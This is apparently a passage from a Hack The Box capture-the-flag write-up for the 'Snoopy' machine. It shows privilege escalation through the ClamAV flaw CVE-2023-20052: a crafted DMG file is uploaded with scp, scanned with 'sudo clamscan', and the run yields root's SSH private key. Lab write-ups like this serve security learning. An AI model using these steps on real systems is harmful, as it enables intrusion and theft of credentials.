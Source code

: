 It took some time to setup the docker container

![](/assets/obsidian/7606435dd11b53d5f4220f452309ed5a.png)

Now, upload `exploit.dng`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/exploit/CVE-2023-20052]
└─$ scp exploit.dmg sbrown@snoopy.htb:/home/sbrown/scanfiles/
exploit.dmg     
```

Run exploit

```bash
sbrown@snoopy:~$ sudo clamscan --debug /home/sbrown/scanfiles/exploit.dmg
LibClamAV debug: searching for unrar, user-searchpath: /usr/local/lib
LibClamAV debug: unrar support loaded from /usr/local/lib/libclamunrar_iface.so.11.0.0
LibClamAV debug: Initialized 1.0.0 engine
LibClamAV debug: Initializing phishcheck module
LibClamAV debug: Phishcheck: Compiling regex: ^ *(http|https|ftp:(//)?)?[0-9]{1,3}(\.[0-9]{1,3}){3}[/?:]? *$
LibClamAV debug: Phishcheck module initialized
LibClamAV debug: Bytecode initialized in interpreter mode
LibClamAV debug: Loading databases from /usr/local/share/clamav
LibClamAV debug: in cli_cvdload()
LibClamAV debug: MD5(.tar.gz) = 9329f8df2b9928baea0ee2cfebb8baab
LibClamAV debug: cli_versig: Decoded signature: 9329f8df2b9928baea0ee2cfebb8baab
LibClamAV debug: cli_versig: Digital signature is correct.
...
```

Got the root's ssh private key
